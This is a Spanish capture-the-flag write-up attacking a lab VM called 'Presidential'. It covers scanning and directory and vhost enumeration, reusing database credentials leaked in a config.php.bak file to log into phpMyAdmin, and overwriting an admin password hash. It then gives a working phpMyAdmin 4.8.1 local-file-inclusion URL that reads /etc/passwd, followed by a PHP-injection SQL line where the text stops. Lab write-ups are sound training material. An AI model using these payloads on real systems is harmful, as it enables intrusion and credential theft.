



33e# Presidential

Si la máquina da problemas para iniciar, se puede editar la interfaz de red
localizando el archivo */etc/sysconfig/network-scripts*. Renombrar el fichero *ifcfg-enp0s3* a *ifconfi-eth0*
editandolo y allá donde ponga *enp0s3* cambiar por *eth0*.

Poner la máquina en VMWare con ethernet bridged. Si no peta al editar los parámetros, editar el fichero vmx
y eliminar todas las entradas ethernet que encontremos. Añadir ethernet.addressType = "generated" ethernet0.present=TRUE.

-------------------------------------------------------------------------------

Comenzamos realizando un escaneo de red para ver la máquina a atacar:

```bash
> sudo arp-scan -I eth0 --localnet
```

```bash
Interface: eth0, type: EN10MB, MAC: 08:00:27:22:46:4f, IPv4: 192.168.1.80
Starting arp-scan 1.9.8 with 256 hosts (https://github.com/royhills/arp-scan)
192.168.1.1     48:8d:36:4f:94:37       Arcadyan Corporation
192.168.1.15    e0:d5:5e:56:4d:af       GIGA-BYTE TECHNOLOGY CO.,LTD.
192.168.1.32    78:c8:81:2a:af:2d       Sony Interactive Entertainment Inc.
192.168.1.26    d4:a6:51:1b:71:3b       Tuya Smart Inc.
192.168.1.98    9c:d2:1e:5d:d5:57       Hon Hai Precision Ind. Co.,Ltd.
192.168.1.34    e8:9f:6d:a5:54:54       Espressif Inc.
192.168.1.12    68:db:f5:00:01:0e       Amazon Technologies Inc.
192.168.1.132   04:42:1a:d0:a4:f3       ASUSTek COMPUTER INC.
192.168.1.142   00:0c:29:cb:10:82       VMware, Inc.
192.168.1.45    de:24:d0:58:b9:9f       (Unknown: locally administered)
```

Vemos que hay una máquina VMWare en la red. Esta es la única máquina de VMWare que existe por lo tanto tiene que ser la máquina víctima:

-------------------------------------------------------------------------------

Ahora vamos a hacer un ping para ver que está activa y no hemos recibido datos cacheados:


```bash
> ping -c 1 192.168.1.142                     
PING 192.168.1.142 (192.168.1.142) 56(84) bytes of data.
64 bytes from 192.168.1.142: icmp_seq=1 ttl=64 time=3.36 ms

--- 192.168.1.142 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 3.363/3.363/3.363/0.000 ms
```

-------------------------------------------------------------------------------

Hagamos un scaneo de puertos a ver qué se encuentra abierto:

```bash
> sudo nmap -sS -n -p1-10000 -vvv -minrate 5000 192.168.1.142
```

```bash
warning: The -m option is deprecated. Please use -oG
Starting Nmap 7.93 ( https://nmap.org ) at 2023-01-30 06:53 EST
Initiating Ping Scan at 06:53
Scanning 5000 (0.0.19.136) [4 ports]
Completed Ping Scan at 06:53, 3.06s elapsed (1 total hosts)
Nmap scan report for 5000 (0.0.19.136) [host down, received no-response]
Initiating ARP Ping Scan at 06:53
Scanning 192.168.1.142 [1 port]
Completed ARP Ping Scan at 06:53, 0.07s elapsed (1 total hosts)
Initiating SYN Stealth Scan at 06:53
Scanning 192.168.1.142 [10000 ports]
Discovered open port 80/tcp on 192.168.1.142
Discovered open port 2082/tcp on 192.168.1.142
Completed SYN Stealth Scan at 06:53, 3.65s elapsed (10000 total ports)
Nmap scan report for 192.168.1.142
Host is up, received arp-response (0.014s latency).
Scanned at 2023-01-30 06:53:41 EST for 4s
Not shown: 9998 closed tcp ports (reset)
PORT     STATE SERVICE  REASON
80/tcp   open  http     syn-ack ttl 64
2082/tcp open  infowave syn-ack ttl 64
MAC Address: 00:0C:29:CB:10:82 (VMware)

Read data files from: /usr/bin/../share/nmap
Nmap done: 2 IP addresses (1 host up) scanned in 7.04 seconds
           Raw packets sent: 10025 (441.036KB) | Rcvd: 10001 (400.036KB)
```

Vemos que encontramos abirtos 2 puertos, el 80, que corre *http*, y el 2082 que corre otro servicio que denomina *infowave.*

Ahora miraremos el resto de puertos por si hay algun más abierto, pero no hay ninguno más.

-------------------------------------------------------------------------------

Miremos qué servicios y qué versiones están corriedo en esos puertos:

```bash
> sudo nmap -sCV -n -p80,2082 192.168.1.142                 
```

```bash
Starting Nmap 7.93 ( https://nmap.org ) at 2023-01-30 07:46 EST
Nmap scan report for 192.168.1.142
Host is up (0.0037s latency).

PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.6 ((CentOS) PHP/5.5.38)
|_http-server-header: Apache/2.4.6 (CentOS) PHP/5.5.38
|_http-title: Ontario Election Services &raquo; Vote Now!
| http-methods: 
|_  Potentially risky methods: TRACE
2082/tcp open  ssh     OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey: 
|   2048 0640f4e58cad1ae686dea575d0a2ac80 (RSA)
|   256 e9e63a838e94f298dd3e70fbb9a3e399 (ECDSA)
|_  256 66a8a19fdbd5ec4c0a9c4d53156c436c (ED25519)
MAC Address: 00:0C:29:CB:10:82 (VMware)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.41 seconds
```

-------------------------------------------------------------------------------

Vamos a mirar qué tecnologías web están corriendo en el servicio web:

```
http://192.168.1.142 [200 OK] Apache[2.4.6], Bootstrap, Country[RESERVED][ZZ],
Email[contact@example.com,contact@votenow.loca], HTML5, 
HTTPServer[CentOS][Apache/2.4.6 (CentOS) PHP/5.5.38], IP[192.168.1.142], 
JQuery, PHP[5.5.38], Script, Title[Ontario Election Services &raquo; Vote Now!]
```
-------------------------------------------------------------------------------

En este punto, vamos a enumerar ficheros que busquemos en el servicio web:

```bash
> gobuster dir --url http://192.168.1.142 --wordlist /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,txt,js,zip,gz,bak
```

```bash
===============================================================
Gobuster v3.3
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.1.142
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.3
[+] Extensions:              js,zip,gz,bak,php,html,txt
[+] Timeout:                 10s
===============================================================
2023/01/30 07:51:04 Starting gobuster in directory enumeration mode
===============================================================
/.html                (Status: 403) [Size: 207]
/about.html           (Status: 200) [Size: 20194]
/index.html           (Status: 200) [Size: 11713]
/assets               (Status: 301) [Size: 236] [--> http://192.168.1.142/assets/]
/config.php           (Status: 200) [Size: 0]
/.html                (Status: 403) [Size: 207]
```

Vemos que hay varios ficheros interesantes por mirar como index.html, about.html el directorio assets y config.php que lo más probable es que no podamos ver el código.

-------------------------------------------------------------------------------

Miremos a ver qué encontramos en el directorio assets:

```bash
> gobuster dir --url http://192.168.1.142/assets --wordlist /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,txt,js,zip,gz,bak
```

```bash
===============================================================
Gobuster v3.3
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.1.142/assets
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.3
[+] Extensions:              zip,gz,bak,php,html,txt,js
[+] Timeout:                 10s
===============================================================
2023/01/30 08:26:21 Starting gobuster in directory enumeration mode
===============================================================
/.html                (Status: 403) [Size: 214]
/img                  (Status: 301) [Size: 240] [--> http://192.168.1.142/assets/img/]
/css                  (Status: 301) [Size: 240] [--> http://192.168.1.142/assets/css/]
/js                   (Status: 301) [Size: 239] [--> http://192.168.1.142/assets/js/]
/vendor               (Status: 301) [Size: 243] [--> http://192.168.1.142/assets/vendor/]
/.html                (Status: 403) [Size: 214]
Progress: 1763609 / 1764488 (99.95%)
===============================================================
2023/01/30 08:41:34 Finished
===============================================================
```

Dentro de assets hemos encontrado varios directorios que podemos explorar.

-------------------------------------------------------------------------------

En este punto podríamos buscar ficheros backup que hayan quedado perdidos en la web.

```bash
> gobuster dir -d --url http://192.168.1.142 --wordlist /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,txt,js,zip,gz        
```

```bash
===============================================================
Gobuster v3.3
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.1.142
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.3
[+] Extensions:              php,html,txt,js,zip,gz
[+] Timeout:                 10s
===============================================================
2023/01/30 08:48:24 Starting gobuster in directory enumeration mode
===============================================================
...
/.html.html.swp       (Status: 403) [Size: 216]
/assets               (Status: 301) [Size: 236] [--> http://192.168.1.142/assets/]
/config.php.bak       (Status: 200) [Size: 107]
/config.php           (Status: 200) [Size: 0]
/.http.swp            (Status: 403) [Size: 211]
...
Progress: 10807012 / 10807489 (100.00%)
===============================================================
2023/01/30 10:28:33 Finished
===============================================================
```

Y encontramos el fichero config.php.bak
                                                                  
-------------------------------------------------------------------------------

Veamos qué pinta tiene la página web de dicha máquina.


En la página podemos encontrar una serie de candidatos a la presidencia cuyos nombres podrían ser utilizados como nombres de usuario.


Miremos también qué pinta tiene la página about:



En esta página también hay una sección que incluye el staff que participa en la creación de la web. Estos, también podrían ser candidatos a nombres de usuario de la máquina.

Miremos el fichero config.php.bak a ver:

```php
<?php
$dbUser = "votebox";
$dbPass = "casoj3FFASPsbyoRP";
$dbHost = "localhost";
$dbname = "votebox";
?>
```

-------------------------------------------------------------------------------

Con esta información no hacemos nada, y después de inspeccionar la web de arriba a abajo varias veces, y de mirar como se realizan las requests desde burpsuite, continuamos con la enumeración:

-------------------------------------------------------------------------------

Enumeración de subdominios usando la lista de palabras subdomains-top1million-110000.txt
(Append domain activado pero por casualidad porque en este punto no sabía para qué servía)

```bash
>  gobuster vhost --append-domain -u http://votenow.local/ -w /usr/share/SecLists/Discovery/DNS/subdomains-top1million-110000.txt
```

```bash
===============================================================
Gobuster v3.3
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:             http://votenow.local/
[+] Method:          GET
[+] Threads:         10
[+] Wordlist:        /usr/share/SecLists/Discovery/DNS/subdomains-top1million-110000.txt
[+] User Agent:      gobuster/3.3
[+] Timeout:         10s
[+] Append Domain:   true
===============================================================
2023/01/31 08:27:42 Starting gobuster in VHOST enumeration mode
===============================================================
Found: gc._msdcs.votenow.local Status: 400 [Size: 347]
Found: _domainkey.votenow.local Status: 400 [Size: 347]
Found: mailing._domainkey.sunnynews.votenow.local Status: 400 [Size: 347]
Found: mailing._domainkey.info.votenow.local Status: 400 [Size: 347]
Found: hallam_dev.votenow.local Status: 400 [Size: 347]
Found: hallam_ad.votenow.local Status: 400 [Size: 347]
Found: wm_j_b__ruffin.votenow.local Status: 400 [Size: 347]
Found: 2609_n_www.votenow.local Status: 400 [Size: 347]
Found: 0907_n_hn.m.votenow.local Status: 400 [Size: 347]
Found: 0507_n_hn.votenow.local Status: 400 [Size: 347]
Found: faitspare_mbp.cit.votenow.local Status: 400 [Size: 347]
Found: sb_0601388345bc6cd8.votenow.local Status: 400 [Size: 347]
Found: sb_0601388345bc450b.votenow.local Status: 400 [Size: 347]
Found: api_portal_dev.votenow.local Status: 400 [Size: 347]
Found: api_web_dev.votenow.local Status: 400 [Size: 347]
Found: api_webi_dev.votenow.local Status: 400 [Size: 347]
Found: sklep_test.votenow.local Status: 400 [Size: 347]
Progress: 114379 / 114442 (99.94%)
===============================================================
2023/01/31 08:32:44 Finished
===============================================================
```

-------------------------------------------------------------------------------

Enumeración de ficheros php,html,htm,sql,ajax,js utilizando la lista de palabras directory-list-2.3-big.txt

```bash
> gobuster dir --url http://192.168.1.142 --wordlist /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-big.txt -x php,html,htm,sql,ajax,js 
```

```bash
===============================================================
Gobuster v3.3
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.1.142
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-big.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.3
[+] Extensions:              sql,ajax,js,php,html,htm
[+] Timeout:                 10s
===============================================================
2023/01/31 15:33:33 Starting gobuster in directory enumeration mode
===============================================================
/.html                (Status: 403) [Size: 207]
/.htm                 (Status: 403) [Size: 206]
/index.html           (Status: 200) [Size: 11713]
/about.html           (Status: 200) [Size: 20194]
/assets               (Status: 301) [Size: 236] [--> http://192.168.1.142/assets/]
/config.php           (Status: 200) [Size: 0]
/.html                (Status: 403) [Size: 207]
/.htm                 (Status: 403) [Size: 206]
/logitech-quickcam_W0QQcatrefZC5QQfbdZ1QQfclZ3QQfposZ95112QQfromZR14QQfrppZ50QQfsclZ1QQfsooZ1QQfsopZ1QQfssZ0QQfstypeZ1QQftrtZ1QQftrvZ1QQftsZ2QQnojsprZyQQpfidZ0QQsaatcZ1QQsacatZQ2d1QQsacqyopZgeQQsacurZ0QQsadisZ200QQsaslopZ1QQsofocusZbsQQsorefinesearchZ1.ajax (Status: 403) [Size: 458]
/logitech-quickcam_W0QQcatrefZC5QQfbdZ1QQfclZ3QQfposZ95112QQfromZR14QQfrppZ50QQfsclZ1QQfsooZ1QQfsopZ1QQfssZ0QQfstypeZ1QQftrtZ1QQftrvZ1QQftsZ2QQnojsprZyQQpfidZ0QQsaatcZ1QQsacatZQ2d1QQsacqyopZgeQQsacurZ0QQsadisZ200QQsaslopZ1QQsofocusZbsQQsorefinesearchZ1.html (Status: 403) [Size: 458]
Progress: 8916282 / 8916838 (99.99%)
===============================================================
2023/01/31 17:26:32 Finished
===============================================================
```

-------------------------------------------------------------------------------

Enumeración de dominios utilizando la lista de palabras directory-list-2.3-medium.txt
(En este caso no se ha utilizado append-domain porque no sabía que se tenía que utilizar)

```bash
> gobuster vhost -u http://votenow.local -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt | grep -v "Status: 400"
```

```bash
===============================================================
Gobuster v3.3
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:             http://votenow.local
[+] Method:          GET
[+] Threads:         10
[+] Wordlist:        /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] User Agent:      gobuster/3.3
[+] Timeout:         10s
[+] Append Domain:   false
===============================================================
2023/01/31 17:30:57 Starting gobuster in VHOST enumeration mode
===============================================================
Progress: 220528 / 220561 (99.99%)
===============================================================
2023/01/31 17:40:31 Finished
===============================================================
```

-------------------------------------------------------------------------------

Enumeración de archivos html usando wfuzz y la lista de palabras directory-list-2.3-big.txt.
No tenía que haber sido necesario porque esta búsqueda ya estaba incluida en una enumeración previa en la que se usó gobuster)

```bash
> wfuzz --hc 400,404,403,405,500 -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-big.txt http://192.168.1.142/FUZZ.html         
```

```bash
 /usr/lib/python3/dist-packages/wfuzz/__init__.py:34: UserWarning:Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.
 /usr/lib/python3/dist-packages/requests/__init__.py:102: RequestsDependencyWarning:urllib3 (1.26.12) or chardet (5.1.0)/charset_normalizer (2.0.6) doesn't match a supported version!
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://192.168.1.142/FUZZ.html
Total requests: 1273833

=====================================================================
ID           Response   Lines    Word       Chars       Payload                  
=====================================================================

000000003:   200        282 L    854 W      11713 Ch    "# Copyright 2007 James F
                                                        isher"                   
000000010:   200        282 L    854 W      11713 Ch    "#"                      
000000007:   200        282 L    854 W      11713 Ch    "# license, visit http://
                                                        creativecommons.org/licen
                                                        ses/by-sa/3.0/"          
000000009:   200        282 L    854 W      11713 Ch    "# Suite 300, San Francis
                                                        co, California, 94105, US
                                                        A."                      
000000008:   200        282 L    854 W      11713 Ch    "# or send a letter to Cr
                                                        eative Commons, 171 Secon
                                                        d Street,"               
000000005:   200        282 L    854 W      11713 Ch    "# This work is licensed 
                                                        under the Creative Common
                                                        s"                       
000000004:   200        282 L    854 W      11713 Ch    "#"                      
000000001:   200        282 L    854 W      11713 Ch    "# directory-list-2.3-big
                                                        .txt"                    
000000006:   200        282 L    854 W      11713 Ch    "# Attribution-Share Alik
                                                        e 3.0 License. To view a 
                                                        copy of this"            
000000002:   200        282 L    854 W      11713 Ch    "#"                      
000000011:   200        282 L    854 W      11713 Ch    "# Priority-ordered case-
                                                        sensitive list, where ent
                                                        ries were found"         
000000013:   200        282 L    854 W      11713 Ch    "#"                      
000000015:   200        282 L    854 W      11713 Ch    "index"                  
000000012:   200        282 L    854 W      11713 Ch    "# on at least 1 host"   
000000026:   200        474 L    1325 W     20194 Ch    "about"                  

Total time: 7256.980
Processed Requests: 1273833
Filtered Requests: 1273818
Requests/sec.: 175.5320
```

-------------------------------------------------------------------------------

Tras mil millones de enumeraciones, volvemos a volver a realizar la enumeración por subdominios, pero esta vez utilizando la lista de palabras directory-list-2.3-medium.txt
y añadiendo append-domain.

```bash
> gobuster vhost --append-domain -u http://votenow.local/ -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt | grep -v "400"
```

```bash
===============================================================
Gobuster v3.3
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:             http://votenow.local/
[+] Method:          GET
[+] Threads:         10
[+] Wordlist:        /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] User Agent:      gobuster/3.3
[+] Timeout:         10s
[+] Append Domain:   true
===============================================================
2023/02/01 05:18:04 Starting gobuster in VHOST enumeration mode
===============================================================
Found: datasafe.votenow.local Status: 200 [Size: 9499]
Progress: 220343 / 220561 (99.90%)
===============================================================
2023/02/01 05:26:01 Finished
===============================================================
```

Nota: entre la versión 3.1 y 3.3 gobuster ha añadido la opción "append-domain" que antes realizaba automáticamente por defecto. Ahora por defecto, esta opción está desactivada, así que la linea de comandos que en la versión 3.1 encontraba el subdominio en cuestión, en la 3.3 no.
Hemos tenido muy mala pata al realizar las enumeraciones, y de no haber sido por la opción append-domain nueva, hubieramos encontrado antes el dominio perdido.

-------------------------------------------------------------------------------

Habiendo encontrado el dominio **datasafe.votenow.local** podemos proceder a inspeccionarlo.

En el navegador no se ve nada. Procedamos entonces a realizar una enumeración de ficheros estándard.

Un paso que nos hemos saltado, es el añadir el nuevo dominio encontrado al fichero /etc/hosts. Ese es el motivo por el que al inspeccionar el dominio en el navegador no veíamos nada.

-------------------------------------------------------------------------------

Una vez realizado esto, volvemos a entrar en el navegador, y esta vez, lo que vemos es un panel de login de phpMyAdmin.



Intentamos entrar con las credenciales típicas admin/admin y esto es lo que vemos en pantalla:



-------------------------------------------------------------------------------

Si recordamos, previamente, durante la enumeración de fiheros de backup, encontramos un fichero config.php.bak que contenía unas credenciales.

$dbUser = "votebox";
$dbPass = "casoj3FFASPsbyoRP";

Probando dichas credenciales, entramos al panel phpMyAdmin.

-------------------------------------------------------------------------------

Una vez dentro, podemos ver la base de datos votebox, y vemos que contiene una tabla users con una 2 columnas, username/password. Dicha tabla solo tiene una entrada:

```
username | password
admin | $2y$12$d/nOEjKNgk/epF2BeAFaMu8hW4ae3JJk8ITyh48q97awT/G7eQ11i
```

Mirando con hashid, no nos da información sobre el hash encontrado (lo cual es raro porque es un hash muy típico). Sin embargo sabemos por otras máquinas realizadas que a entrada es un hash realizado con BCrypt2

-------------------------------------------------------------------------------

Una cosa que podemos probar es a cambiar la constraseña del admin en SQL

Generamos una constraseña del mismo tipo 

```bash
> mkpasswd -m bcrypt 123456
```

```bash
$2b$05$I5GSq/A4OaPHH5lmqVowye68Sj8hpuSZJCM9i6kCDplSqC1BFvuFe
```

E insertamos la nueva contraseña en la tabla:

```sql
UPDATE `users` SET `password`="$2b$05$I5GSq/A4OaPHH5lmqVowye68Sj8hpuSZJCM9i6kCDplSqC1BFvuFe" WHERE `username`="admin"
```

Pero de momento esto no sirve para nada. Intentamos entrar con las credenciales admin/123456 en el panel de login, pero no sirve. No tiene nada que ver.

-------------------------------------------------------------------------------

Enumerando de nuevo, vemos varios ficheros que se encuetran disponibles. Sin embargo, la mayoría redirigen al panel de login.

```bash
> gobuster dir --url datasafe.votenow.local --wordlist /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,htm,sql,ajax,js,bak,php.bak
```

```bash
===============================================================
Gobuster v3.3
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://datasafe.votenow.local
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.3
[+] Extensions:              html,htm,sql,ajax,js,bak,php.bak,php
[+] Timeout:                 10s
===============================================================
2023/02/01 15:54:29 Starting gobuster in directory enumeration mode
===============================================================
/.html                (Status: 403) [Size: 207]
/.htm                 (Status: 403) [Size: 206]
/index.php            (Status: 200) [Size: 9499]
/templates            (Status: 301) [Size: 248] [--> http://datasafe.votenow.local/templates/]
/themes               (Status: 301) [Size: 245] [--> http://datasafe.votenow.local/themes/]
/themes.php           (Status: 200) [Size: 9500]
/doc                  (Status: 301) [Size: 242] [--> http://datasafe.votenow.local/doc/]
/scripts              (Status: 301) [Size: 246] [--> http://datasafe.votenow.local/scripts/]
/ajax.php             (Status: 200) [Size: 9502]
/test                 (Status: 301) [Size: 243] [--> http://datasafe.votenow.local/test/]
/license.php          (Status: 200) [Size: 9504]
/navigation.php       (Status: 200) [Size: 9504]
/README               (Status: 200) [Size: 1520]
/examples             (Status: 301) [Size: 247] [--> http://datasafe.votenow.local/examples/]
/js                   (Status: 301) [Size: 241] [--> http://datasafe.votenow.local/js/]
/libraries            (Status: 301) [Size: 248] [--> http://datasafe.votenow.local/libraries/]
/logout.php           (Status: 200) [Size: 9500]
/url.php              (Status: 302) [Size: 0] [--> /]
/changelog.php        (Status: 200) [Size: 9506]
/export.php           (Status: 200) [Size: 9500]
/ChangeLog            (Status: 200) [Size: 20501]
/vendor               (Status: 301) [Size: 245] [--> http://datasafe.votenow.local/vendor/]
/setup                (Status: 301) [Size: 244] [--> http://datasafe.votenow.local/setup/]
/sql                  (Status: 301) [Size: 242] [--> http://datasafe.votenow.local/sql/]
/sql.php              (Status: 200) [Size: 9507]
/tmp                  (Status: 301) [Size: 242] [--> http://datasafe.votenow.local/tmp/]
/LICENSE              (Status: 200) [Size: 18092]
/po                   (Status: 301) [Size: 241] [--> http://datasafe.votenow.local/po/]
/import.php           (Status: 200) [Size: 9504]
/lint.php             (Status: 200) [Size: 9498]
/.htm                 (Status: 403) [Size: 206]
/.html                (Status: 403) [Size: 207]
/server_status.php    (Status: 200) [Size: 9517]
/phpinfo.php          (Status: 200) [Size: 9505]
/db_search.php        (Status: 200) [Size: 9503]
Progress: 1984821 / 1985049 (99.99%)
===============================================================
2023/02/01 16:12:55 Finished
===============================================================
```
-------------------------------------------------------------------------------

Mirando http://datasafe.votenow.local/ChangeLog 
Vemos que la versión de phpMyAdmin parece ser la 4.8.1

```bash
phpMyAdmin - ChangeLog
======================

4.8.1 (2018-05-24)
```

De hecho en el fichero README que también es accesible, es la versión que pone :D

Por lo tanto, miramos en searchsploit si existe algún exploit para esta versión de phpMyAdmin.

```bash
---------------------------------------------------------------- ---------------------------------
 Exploit Title                                                  |  Path
---------------------------------------------------------------- ---------------------------------
phpMyAdmin 4.8.1 - (Authenticated) Local File Inclusion (1)     | php/webapps/44924.txt
phpMyAdmin 4.8.1 - (Authenticated) Local File Inclusion (2)     | php/webapps/44928.txt
phpMyAdmin 4.8.1 - Remote Code Execution (RCE)                  | php/webapps/50457.py
---------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```
Hay varios exploits, miramos por ejemplo el primero, que nos explica una manera de conseguir un LFI.

Logramos hacer un LFI con la siguiente linea en la url:

```
http://datasafe.votenow.local/index.php?target=db_sql.php%253f/../../../../../../etc/passwd
```

```bash
root:x:0:0:root:/root:/bin/bash 
bin:x:1:1:bin:/bin:/sbin/nologin
daemon:x:2:2:daemon:/sbin:/sbin/nologin 
adm:x:3:4:adm:/var/adm:/sbin/nologin 
lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin 
sync:x:5:0:sync:/sbin:/bin/sync
shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown
halt:x:7:0:halt:/sbin:/sbin/halt
mail:x:8:12:mail:/var/spool/mail:/sbin/nologin 
operator:x:11:0:operator:/root:/sbin/nologin 
games:x:12:100:games:/usr/games:/sbin/nologin 
ftp:x:14:50:FTP User:/var/ftp:/sbin/nologin 
nobody:x:99:99:Nobody:/:/sbin/nologin
systemd-network:x:192:192:systemd
Network Management:/:/sbin/nologin
dbus:x:81:81:System message bus:/:/sbin/nologin
polkitd:x:999:998:User for polkitd:/:/sbin/nologin
sshd:x:74:74:Privilege-separated SSH:/var/empty/sshd:/sbin/nologin 
postfix:x:89:89::/var/spool/postfix:/sbin/nologin 
chrony:x:998:996::/var/lib/chrony:/sbin/nologin
apache:x:48:48:Apache:/usr/share/httpd:/sbin/nologin
admin:x:1000:1000::/home/admin:/bin/bash
mysql:x:27:27:MariaDB Server:/var/lib/mysql:/sbin/nologin
```


select '<?php phpinfo();exit;?>'

-------------------------------------------------------------------------------
